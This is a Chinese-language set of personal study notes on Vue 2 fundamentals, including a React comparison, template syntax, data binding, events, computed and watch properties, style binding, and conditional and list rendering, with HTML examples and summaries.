

# React和Vue不同之处

> 1. vue中js表达式写在`{{ }}`中和v-on绑定，react中的js表达式写在`{ }`中
> 2. vue中`{{ }}`不可以写this，react中`{ }`可以写this
> 3. vue需要component注册组件，react不需要
> 4. vue需要props接收传递的数据，react直接使用this.props.xxx
> 5. 获取输入框数据，vue一般使用v-model，react使用this.refs.xxx
> 6. vue调用函数时可以加括号也可以不加，react调用函数时一般不加括号，如果加括号的话，需要用到函数柯里化或者调用 返回函数名加括号 的回调函数
> 7. 在vue2中普通函数this指向的是组件，箭头函数是undefined，vue3中没有this。react的类式组件中普通函数开始了严格模式，this就是undefined，箭扣函数this指向的是组件实例化，函数式组件中没有this
> 8. 在vue2中this调用的带个$，例如：this.$refs.xxx。react类式组件中不需要，例如：this.refs.xxx，函数式组件使用Hook，例如：const refs = useRef()
> 9. vue和react的ref返回的都是元素节点，不过react中可以 .value获取input的value值，vue不可以 .value获取，可以使用v-model双向绑定
> 10. vue和react都可以通过事件的e.target.value获取input的value值
> 11. Suspense，vue在异步加载时使用，react在懒加载时使用

# 下载与安装

## 下载


> 在安装完运行时，会看到两个提示信息，但并不是报错
>
> 第一条是提示我们使用Vue的开发工具，第二条提示我们使用的是开发版的包


# 第一章：Vue核心

## 初识Vue

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Document</title>
    <script src="js\vue.js" type="text/javascript"></script>
</head>
<body>
    <div id = "root">
        <h1>hello,{{name}}</h1>
        <h1>我的年龄是{{age}}</h1>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false;//阻止vue在启动时生成生产提示

    //创建vue实例
    new Vue({
        el:'#root',//el用于指定当前vue实例为哪个容器服务，值通常为css选择器字符串
        data:{//data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象
            name:'lz',
            age:18
        }
    })
</script>
</html>
```

> 总结：
>
> 1.想让Vue工作，就必须**创建一个Vue实例**，且要传入一个配置对象
>
> 2.root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法
>
> 3.root容器里的代码被称为**【Vue模板】**
>
> 4.Vue实例和容器时一一对应的
>
> 5.真是开发中只有一个Vue实例，并且会配合着组件一起来使用
>
> 6.{{xxx}}中的xxx要写**js表达式**，且xxx可以自动读取到data中的所有属性
>
> 7.一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新

## 模板语法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="js/vue.js" type="text/javascript"></script>
    <title>Document</title>
</head>
<body>

    <div id="root">
        <h1>插值语法</h1>
        <h3>hello,{{name}}</h3>
        <hr>
        <h1>指令标签</h1>
        <a v-bind:href="url">点我去{{school.name}}</a>
        <a :href="url">点我去{{school.name}}</a><!--简写 -->
    </div>
    
</body>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'jack',
            url:'http://www.baidu.com',
            school:{
                name:'百度'
            }
        }
    })
</script>
</html>
```

> Vue模板语法有两大类：
>
> 1.插值语法：
>
> ​	功能：用于解析标签体内容
>
> ​	写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性
>
> 2.指令语法：
>
> ​	功能：用于解析标签（包括：标签属性、标签体内容、绑定事件......）
>
> ​	举例：**v-bind:href=“xxx”** 或 简写成 **:href = “xxx”**，xxx同样要写js表达式，且可以直接读取到data中的所有属性
>
> ​	备注：Vue中有很多的指令，且形式都是v-xxx

## 数据绑定

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>
    <div id="root">
        <!--普通写法-->
        <!-- 单向数据绑定<input type="text" v-bind:value= name><br/>
        双向数据绑定<input type="text" v-model:value= name><br/> -->

        <!--简写-->
        单向数据绑定<input type="text" :value= name><br/>
        双向数据绑定<input type="text" v-model= name><br/>

        <!--如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上-->
        <!-- <h2 v-model:x="name">你好啊</h2> -->
    </div>
    
</body>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'lz',
        }
    })
</script>
</html>
```

> Vue中有两种数据绑定的方式
>
> ​	1.**单向绑定（v-bind)**：数据只能从data流向页面
>
> ​	2.**双向绑定（v-model)**：数据不仅能从data流向页面，还可以从页面流向data
>
> ​		备注：
>
> ​				1.双向绑定一般都应用在表单类元素上（如：input、select等）
>
> ​				2**.v-model:value** 可以简写为 **v-model**，因为v-model默认收集的就是value的值

## el与data的两种写法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>
    
    <div id="root">
        <h1>你好！{{name}}</h1>
    </div>


</body>

<script type="text/javascript">
    Vue.config.productionTip = false;//阻止vue在启动时生成生产提示

    // //el两种写法
    // const v = new Vue({
    //     // el:'#root',//el第一种写法
    //     data:{
    //        name:'lz'
    //    }
    // })

    // v.$mount('#root')//el第二种写法


    //data的两种写法
    new Vue({
        el:'#root',
        // //data的第一种写法：对象式
        // data:{
        //     name:'lz'
        // }

         //data的第二种写法：函数式
        // data:function(){
        data(){
            return{
                name:'lz'
            }
        }
    })
 
</script>
</html>
```

> data与el的两种写法
>
> ​	1.el有两种写法：
>
> ​		（1）new Vue时候配置el属性
>
> ​		（2）先创建Vue实例，随后再通过vm.$mount('#root')指定el的值
>
> ​	2.data有两种写法
>
> ​		（1）对象式
>
> ​		（2）函数式
>
> ​		如何选择：目前哪种写法都可以，以后**学习到组件时，data必须使用函数式，否则会报错**
>
> ​	3.一个重要原则：
>
> ​		**由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了**

## 数据代理

### 何为数据代理

> **`Object.defineProperty()`** 方法会直接在一个对象上定义一个新属性，或者修改一个对象的现有属性，并返回此对象。
>
> 
>
> 语法：`Object.defineProperty(obj, prop, descriptor)`
>
> - `obj`
>
>   要定义属性的对象。
>
> - `prop`
>
>   要定义或修改的属性的名称或 [`Symbol`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Symbol) 。
>
> - `descriptor`
>
>   要定义或修改的属性描述符。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

    <!--数据代理：通过一个对象代理对另一个对象中属性的操作（读、写）-->
    <script>
        let obj = {x:100};
        let obj2 = {y:200};

        Object.defineProperty(obj2,'x',{
            get(){
                return obj.x
            },
            set(value){
                obj.x  = value;
            }
        })
    </script>
    
</body>
</html>
```

### Vue中的数据代理


> 1.Vue中的数据代理：
>
> ​	通过vm对象来代理data对象中属性的操作（读、写）
>
> 2.Vue中数据代理的好处：
>
> ​	更加方便的操作data中的数据
>
> 3.基本原理：
>
> ​	**通过Object.defineProperty()把data对象中所有属性添加到vm上**
>
> ​	**为每一个添加到vm上的属性，都指定一个getter/setter**
>
> ​	**在getter/setter内部去操作（读、写）data中对应的属性**

## 事件绑定

### 写在前面

> 调用函数时：
>
> ​	函数名：调用的函数（用这个）
>
> ​	函数名（）：调用的返回值
>
> vue中加不加好像都行吧

### this

> 如果是vue实例本身的属性和方法,那么this指向就是vue实例本身,比如methods对象,computed对象,watch对象里的方法。
>
> **`方法名(){}`写,就代表this指向是vue实例,**
>
> **`()=>{}`箭头函数的方式定义方法,则this指向window,**
>
> 因为**箭头函数中的this指向的是外部函数的this指向**,**普通函数的this指向的是它的调用者,而vue中的methods和computed和watch他们都是vue本身的方法所以只要他们使用普通函数定义this当然指向他们的调用者即this**
>
> 两个重要的小原则:
>
> 1.所有被Vue管理的函数，最好写成普通函数，这样this的指向才是vm或组件实例对象。
>
> 2.所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等)，最好写成箭头函数,这样this的指向才是vm或组件实例对象

### 事件的基本使用

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>
    <div id="root">
        <h1>hello,{{name}}</h1>
        <!-- <button v-on:click='showInfo'>点我显示提示信息</button> -->
        <button @click='showInfo'>点我显示提示信息（不传参）</button><!--简写-->
        <button @click='showInfo2(66,$event)'>点我显示提示信息（传参）</button><!--传参-->
    </div>
</body>
<script>
    new Vue({
        el: '#root',
        data:{
            name:'lz'
        },
        methods:{
            showInfo(event){//Event 对象代表事件的状态，比如事件在其中发生的元素、键盘按键的状态、鼠标的位置、鼠标按钮的状态。
                alert('同学你好！'),
                console.log(event)
            },
            showInfo2(number,event){
                console.log(number,event)
            }
        }
    })
</script>

</html>
```


> 事件的基本使用：
>
> ​	1.使用**v-on:xxx**或**@xxx**绑定事件，其中xxx事件名
>
> ​	2.事件的回调需要配置在methods对象中，最终会在vm上
>
> ​	3.**methods中配置的函数，不要使用箭头函数！否则this就不是vm了**
>
> ​	4.methods中配置的函数，都是被Vue所管理的函数，this都是指向vm或组件实例对象
>
> ​	5.**@click = "demo" 和@click=“demo（$event)”效果一致，但后者可以传参。如果说你写的函数带有括号，还想得到event，那你必须传入$event，否则拿不到**

### 事件修饰符

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .demo01{
            height: 100px;
            width: 100px;
            background-color: aquamarine;
        }

        .box1{
            padding: 50px;
            background-color: aquamarine;
        }
        .box2{
            padding: 50px;
            background-color: indianred;
        }
        .list{
            height: 200px;
            width: 200px;
            background-color: indigo;
            overflow: auto;
        }
        li{
            height: 100px;
        }
    </style>
</head>

<body>
    <div id="root">
        <h1>欢迎来到{{name}}学习</h1>
        <!--阻止默认事件（常用）-->
        <a href="www.baidu.com" @click.prevent="showInfo">点我显示提示信息</a>

        <!--阻止事件冒泡（常用）-->
        <div class="demo01" @click ="showInfo">
            <button @click.stop="showInfo">点我显示提示信息</button>

            <!--修饰符额可以连续写，即阻止默认事件，又阻止冒泡-->
            <a href="www.baidu.com" @click.prevent.stop="showInfo">点我显示提示信息</a>
        </div>

        <!--事件只触发一次（常用）-->
        <button @click.once = "showInfo">点我提示信息</button>

        <!--使用事件的捕获模式。当点击div1时，只输出1。当点击div2时，捕获输出1 2，不捕获输出的是2 1-->
        <div class="box1" @click.capture = "showmsg(1)">
            div1
            <div class="box2" @click = "showmsg(2)">
                div2
            </div>
        </div>

        <!--只有event.target时档期那操作的元素时才出发事件-->
        <div class="demo01" @click.self ="showInfo">
            <button @click="showInfo">点我显示提示信息</button>
        </div>

        <!--事件的默认行为立即执行，无需等待事件回调执行完毕-->
        <ul class="list" @wheel.passive="demo">
            <li>1</li>
            <li>2</li>
            <li>3</li>
            <li>4</li>
        </ul>
    </div>

</body>
<script>
    new Vue({
        el: '#root',
        data: {
            name: 'weike',
        },
        methods:{
            showInfo(e){
                // console.log(e.target)//target返回触发事件的元素。
                alert("同学你好！")
            },
            showmsg(msg){
                console.log(msg)
            },
            demo(){
                for(let i = 0;i<10000;i++){
                    console.log("#")
                }
            }
        }
    })
</script>

</html>
```


> Vue中的事件修饰符：
>
> ​	1.**prevent**：阻止默认事件（常用）
>
> ​	2.**stop**：阻止事件冒泡（常用）
>
> ​	3.**once**：事件只触发一次（常用）
>
> ​	4.capture：使用事件的捕获模式
>
> ​	5.self：只有event.target时档期那操作的元素时才出发事件
>
> ​	6.passive：事件的默认行为立即执行.，无需等待事件回调执行完毕

### 键盘事件

> event对象：代表事件的状态
>
> target属性：获取触发特定事件的元素节点
>
> 

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>
    <div id="root">
        <!-- <input type="text" placeholder="点击显示信息" @keyup="showInfo"> -->
        <input type="text" placeholder="点击显示信息" @keyup.enter="showInfo">
        <input type="text" placeholder="查看当前按键名以及按键的代码" @keyup="showkey">
        <input type="text" placeholder="点击显示信息" @keyup.caps-lock="showInfo"><!--两个单词组合成的按键名，需要首字母小写并且两个字母之间用 - 连接-->
        <input type="text" placeholder="点击显示信息" @keydown.ctrl="showInfo">
        <input type="text" placeholder="点击显示信息" @keyup.ctrl.x="showInfo"><!--指定ctrl.x 只有按这两个键才可以-->
        <input type="text" placeholder="自定义别名" @keyup.huiche="showInfo">
    </div>
</body>


<script>
    Vue.config.keyCodes.huiche = 13;//自定义一个按钮别名

    new Vue({
        el:'#root',
        methods:{
            showInfo(e){
                // if(e.keyCode != 13) return
                console.log(e.target.value)
            },
            showkey(e){
                console.log(e.key,e.keyCode) //查看当前按键名以及按键的代码
            }
        }
    })
</script>

</html>
```

>   1.Vue中常用的按键别名
>
> ​    **回车 ==》enter**
>
> ​    **删除 ==》 delete（捕获删除和退格）**
>
> ​    **退出 ==》 esc**
>
> ​    **空格 ==》 space**
>
> ​    **换行 ==》 tab**
>
> ​    **上 ==》 up**
>
> ​    **下 ==》 down**
>
> ​    **左 ==》 left**
>
> ​    **右 ==》right**
>
>   2.Vue为提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为**keybab-case**（短横线命名）
>
>   3.系统修饰键（用法特殊）：ctrl/alt/shift/meta
>
> ​    (1)配合keyup使用：按下修饰键的同时在按下其他键，随后释放其他键，事件才被触发
>
> ​    (2)配合keydown使用：正常触发事件
>
>   4.也可以使用keyCode去指定具体的按键（不推荐）
>
>   5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制及按键别名

## 计算属性（一定不要忘记return）

### 姓名案例

```html
<!--插值语法实现-->
<body>
<div id="root">
    姓<input type="text" v-model="firstName"></br>
    名<input type="text" v-model="lastName"></br>
    全名<span>{{firstName.slice(0,3)}}-{{lastName}}</span><!--slice截取片段，0，1，2位-->
</div>
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三'
        }
    })
</script>


<!--methods实现-->
<body>
<div id="root">
    姓<input type="text" v-model="firstName"></br>
    名<input type="text" v-model="lastName"></br>
    全名<span>{{fullName()}}</span><!--注意此处的函数需要加（），这样插入的是返回的函数值，不加（）就是把函数插入了-->
</div>
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三'
        },
        methods:{
            fullName(){
                return this.firstName + '+' + this.lastName
            }
        }
    })
</script>


<!--属性计算实现-->
<body>
<div id="root">
    姓<input type="text" v-model="firstName"></br>
    名<input type="text" v-model="lastName"></br>
	全名<input type="text" v-model="fullName"></br>
</div>
</body>
<script>
    const vm = new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三'
        },
        computed:{
            fullName:{
                //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                //get什么时候调用？1.初次读取fullName时，2.所依赖的数据发生变化时
                get(){
                    console.log("get")
                    return this.firstName + "-" +this.lastName
                },
                //set什么时候调用？当fullName修改时
                set(value){//value是修改的数据
                    console.log('set',value)
                    const arr = value.split("-")
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            }
        }
    })
</script>


<!--计算属性简写-->
<body>
    <div id="root">
        姓<input type="text" v-model="firstName"></br>
        名<input type="text" v-model="lastName"></br>
        全名<input type="text" v-model="fullName"></br>
    </div>
</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        computed: {
            // //完整写法
            // fullName:{

            //     get(){
            //         console.log("get")
            //         return this.firstName + "-" +this.lastName
            //     },

            //     set(value){
            //         console.log('set',value)
            //         const arr = value.split("-")
            //         this.firstName = arr[0]
            //         this.lastName = arr[1]
            //     }
            // }

            //简写，只有在只读不写的时候可以使用简写
            //fullName:function(){
            fullName() {
                return this.firstName + '-' + this.lastName
            }
        }
    })
</script>
```

> 计算属性：
>
> 1.定义：要用的属性不存在，要通过已有属性计算得来
>
> 2.原理：底层借助了Object.defineproperty方法提供的getter和setter
>
> 3.get函数什么时候执行？
>
> ​	（1）初次读取时会被执行一次
>
> ​	（2）当依赖的数据发生改变时会被再次调用
>
> 4.优势：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便
>
> 5.备注：
>
> ​	（1）计算属性最终会出现在vm上，直接读取使用即可。
>
> ​	（2）如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变

## 监视属性

### 天气案例

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{Info}}</h2>
        <button @click="changeWeather">点击切换天气1</button>
        <!---绑定事件的时候：@xxx ="yyy" yyy可以写一些简单的语句-->
        <button @click = "isHot = !isHot">点击切换天气2</button>

    </div>

</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true
        },
        computed: {
            Info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        // watch:{
        //     isHot:{
        //         immediate:true,//初始化时让handler调用一下，默认值时false
        //         //handler什么时候调用？当isHot发生改变时。
        //         handler(newvalue,oldvalue){
        //             console.log('ishot被修改了',newvalue,oldvalue)
        //         }
        //     },
        //     // Info:{//也可以来监视Info
        //     //     immediate:true,
        //     //     handler(newvalue,oldvalue){
        //     //         console.log('Info被修改了',newvalue,oldvalue)
        //     //     }
        //     // }
        // }
    })

    //另一种写法（不是全局监视）
    vm.$watch('isHot', {
        immediate: true,
        handler(newvalue, oldvalue) {
            console.log('ishot被修改了', newvalue, oldvalue)
        }
    })
</script>

</html>
```

> 监视属性watch：
>
> ​	1.当被监视的属性变化时，回调函数自动调用，进行相关操作
>
> ​	2.监视的属性必须存在，才能进行监视
>
> ​	3.监视的两种写法：
>
> ​		（1）new Vue时传入watch配置
>
> ​		（2）通过vm.$watch监视

### 深度监视

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{Info}}</h2>
        <button @click="changeWeather">点击切换天气1</button>

        <hr />

        <h2>当前数字是{{number.a}}</h2>
        <button @click="number.a++">点击按钮a+1</button>

        <h2>当前数字是{{number.b}}</h2>
        <button @click="number.b++">点击按钮b+1</button>


    </div>

</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
            number: {
                a: 1,
                b: 2
            }
        },
        computed: {
            Info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            isHot: {
                immediate: true,//初始化时让handler调用一下，默认值时false
                //handler什么时候调用？当isHot发生改变时。
                handler(newvalue, oldvalue) {
                    console.log('ishot被修改了', newvalue, oldvalue)
                }
            },
            //监视多级结构中某个属性的变化
            // 'number.a': {
            //     handler() {
            //         console.log("a发生了变化")
            //     }
            // },

            //监视多级结构中所有属性的变化
            number: {
                deep: true,//默认是false，不加deep,是监视number对象地址的变化，而不是监视a/b的值变化
                handler() {
                    console.log("number发生了变化")
                }

            }
        }


    })


</script>

</html>
```

> 深度监视：
>
> ​	1.Vue中的watch默认不监视对象內部值的改变（一层）	
>
> ​	2.配置deep:true可以监视对象内部值改变（多层）
>
> 备注：
>
> ​	1.Vue自身可以监视对象內部值的改变，但Vue提供的watch默认不可以
>
> ​	2.使用watch时根据数据的具体结构，决定是否采用深度监视

### 深度监视简写

> 不需要配置其他属性时才可以使用简写，比如immediate和deep

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{Info}}</h2>
        <button @click="changeWeather">点击切换天气1</button>

    </div>

</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            Info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            //正常写法
            isHot: {
                immediate: true,//初始化时让handler调用一下，默认值时false
                deep:true,//深度监视
                handler(newvalue, oldvalue) {
                    console.log('ishot被修改了', newvalue, oldvalue)
                }
            },

            //简写
            // isHot:function(newvalue, oldvalue){
            // isHot(newvalue, oldvalue){
            //     console.log('ishot被修改了', newvalue, oldvalue)
            // }

        },

    })
    //正常写法（另一种写法）
    // vm.$watch('isHot', {
    //     immediate: true,//初始化时让handler调用一下，默认值时false
    //     deep: true,//深度监视
    //     handler(newvalue, oldvalue) {
    //         console.log('ishot被修改了', newvalue, oldvalue)
    //     }
    // })

    // //简写
    // vm.$watch('isHot',function(newvalue, oldvalue){
    //     console.log('ishot被修改了', newvalue, oldvalue)
    // })

</script>

</html>
```

### 姓名案例-watch实现

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>

    <script src="js/vue.js"></script>
</head>

<body>
    <div id="root">
        姓<input type="text" v-model="firstName"></br>
        名<input type="text" v-model="lastName"></br>
        全名<span>{{fullName}}</span>
    </div>
</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三',
            fullName: '张-三'
        },
        watch: {

            firstName(val) {
                setTimeout(() => {//在计算属性中就不可以，因为返回值会返回到setTimeout函数上。setTimeout最好使用箭头函数，否者this时windows
                     this.fullName = val + this.lastName
                },1000)

            },
            lastName(val) {
                 this.fullName = this.firstName + val
            }
        }
    })
</script>

</html>
```

> computed和watch之间的区别：
>
> ​	1.**computed能完成的功能，watch都可以完成**
>
> ​	2.watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作
>
> 两个重要小原则：
>
> ​	**1.所被Vue管理的函数，最好使用普通函数，这样this的执行才是vm或组件实例对象**
>
> ​	**2.所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数、Promise的回调函数），最好写成箭头函数，这样this的执行才是vm或组件实例对象**

## 绑定样式

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
    <style>
        .basic {
            height: 100px;
            width: 100px;
            border: brown 2px solid;
        }

        .happy {
            height: 100px;
            width: 100px;
            background: aquamarine;
        }

        .bad {
            height: 100px;
            width: 100px;
            color: red;
        }

        .normal {
            height: 100px;
            width: 100px;
            border-radius: 20px;
        }
    </style>
</head>

<body>

    <div id="root">
        <!--绑定class样式——字符串写法，适用于：样式的类名不确定，需要动态指定-->
        <div class="basic" :class="mood" @click="changmood">{{test}}</div><br />

        <!--绑定class样式——数组写法，适用于：要绑定的样式个数不确定、名字也不确定-->
        <div class="basic" :class="classArr">{{test}}</div><br />

        <!--绑定class样式——对象写法，适用于：要绑定的样式个数确定、名字也确定,但要动态决定用不用-->
        <div class="basic" :class="classObj">{{test}}</div><br />

        <!--绑定class样式——对象写法-->
        <div class="basic" :style="{'font-size':'70px'}">{{test}}</div><br />
        <div class="basic" :style="styleObj">{{test}}</div><br />

        <!--绑定class样式——数组写法-->
        <div class="basic" :style="[styleObj,styleObj2]">{{test}}</div><br />
        <div class="basic" :style="styleArr">{{test}}</div><br />
    </div>

</body>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            test: 'hello',
            mood: 'normal',
            classArr: ['happy', 'bad', 'normal'],
            classObj: {
                haappy: false,
                bad: false
            },
            styleObj: {
                'font-size': '40px'
                // fontSize:'40px'
            },
            styleObj2: {
                'background': 'red'
            },
            styleArr: [
                {
                    'font-size': '20px'
                },
                {
                    'background': 'blue'
                },
            ]
        },
        methods: {
            changmood() {
                // this.mood = 'happy'
                const arr = ['happy', 'bad', 'normal'];
                const index = Math.floor(Math.random() * 3);
                this.mood = arr[index];
            }
        },
    })
</script>

</html>
```


> 绑定样式：
>
> ​	1.class样式：
>
> ​		写法：class="xxx" xxx可以是字符串、对象、数组
>
> ​					字符串写法适用于：类名不确定，要动态获取
>
> ​					数组写法适用于：要绑定多个样式，个数不确定，名字也不确定
>
> ​					对象写法适用于：要绑定多个样式，个数确定，名字也确定，但是不确定用不用
>
> ​	2.style样式
>
> ​		：style="{fontSize = xxx}"   其中xxx是动态值  例如：40 + 'px'，或者‘40px’，并且只能用单引号
>
> ​		：style="[a,b]" 其中a、b是样式对象

## 条件渲染

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>

    <div id="root">
        <!--使用v-show做条件渲染-->
        <!-- <h2 v-show="false">欢迎来到，{{name}}</h2> -->
        <!-- <h2 v-show="1 == 1">欢迎来到，{{name}}</h2> -->


        <!--使用v-if做条件渲染-->
        <!-- <h2 v-if="false">欢迎来到，{{name}}</h2> -->
        <!-- <h2 v-if="1 == 1">欢迎来到，{{name}}</h2> -->


        <h2>当前的n值是：{{n}}</h2>
        <button @click="n++">点我n+1</button>

        <!-- <div v-show = "n == 1">111show</div>
        <div v-show = "n == 2">222show</div>
        <div v-show = "n == 3">333show</div>
        
        <div v-if = "n == 1">111if</div>
        <div v-if = "n == 2">222if</div>
        <div v-if = "n == 3">333if</div> -->

        <!--v-else和v-else-if,注意下面这几个语句属于一个整体，中间不可以被打断-->
        <!-- <div v-if = "n == 1">111if</div>
        <div v-else-if = "n == 2">222if</div>
        <div v-else-if = "n == 3">333if</div>
        <div v-else>if</div> -->

        <!--v-if和template的配合使用，注意不可以和show一起使用-->
        <template v-if=" n == 1">
            <h2>你好111</h2>
            <h2>你好222</h2>
            <h2>你好333</h2>
        </template>
      
    </div>
    
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'维科',
            n:0
        }
    })
</script>
</html>
```

> 条件渲染：
>
>  1.v-if
>
> ​	写法：（1）v-if = ”表达式“
>
> ​				（2）v-else-if = "表达式"
>
> ​				（3）v-else = "表达式"
>
> ​	适用于：切换频率较低的场景
>
> ​	特点：**不展示的DOM元素直接被移除**
>
> ​	注意：v-if可以和：v-else-if、v-else一起使用，但要求结构不能被“打断”
>
> 2.v-show
>
> ​	写法：v-show = "表达式"
>
> ​	适用于：切换频率较高的场景
>
> ​	特点：**不展示的DOM元素未被移除，仅仅是使用样式隐藏掉**
>
> 3.备注：使用v-if时，元素可以无法获取到，而使用v-show一定可以获取到

## 列表渲染

### 基本列表

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <ul>
            <!--遍历数组-->
            <!-- <li v-for="p in persons" :key="p.id">
                {{p.name}}-{{p.age}}--{{p.id}}
            </li> -->
            <h2>测试遍历数组</h2>
            <li v-for="(p,index) in persons" :key="index">
                {{p.name}}-{{p.age}}
            </li>
           
            <!--遍历对象-->
            <h2>测试遍历对象</h2>
            <li v-for="(value,k) in car" :key="k">
                {{k}}-{{value}}
            </li>


            <!--遍历字符串-->
            <h2>测试遍历字符串（用的少）</h2>
            <li v-for="(char,index) in str" :key="index">
                {{index}}-{{char}}
            </li>


            <!--遍历指定次数-->
            <h2>测试遍历指定次数（用的少）</h2>
            <li v-for="(number,index) in 5" :key="index">
                {{index}}-{{number}}
            </li>
        </ul>
    </div>

</body>

<script>
    new Vue({
        el: '#root',
        data: {
            persons: [
                {id : "001", name:"张三", age:"18"},
                {id : "002", name:"李四", age:"19"},
                {id : "003", name:"王五", age:"20"},
            ],
            car:{
                name:'奥迪A8',
                price:'70w',
                color:'黑色'
            },
            str:'hello'
        }
    })
</script>

</html>
```

> v-for指令
>
> ​	1.用于展示列表数据
>
> ​	2.语法：v-for="(item,index) in xxx"  :key= "yyy"
>
> ​	3.可遍历：数组、对象、字符串（用的少）、指定次数（用的少）

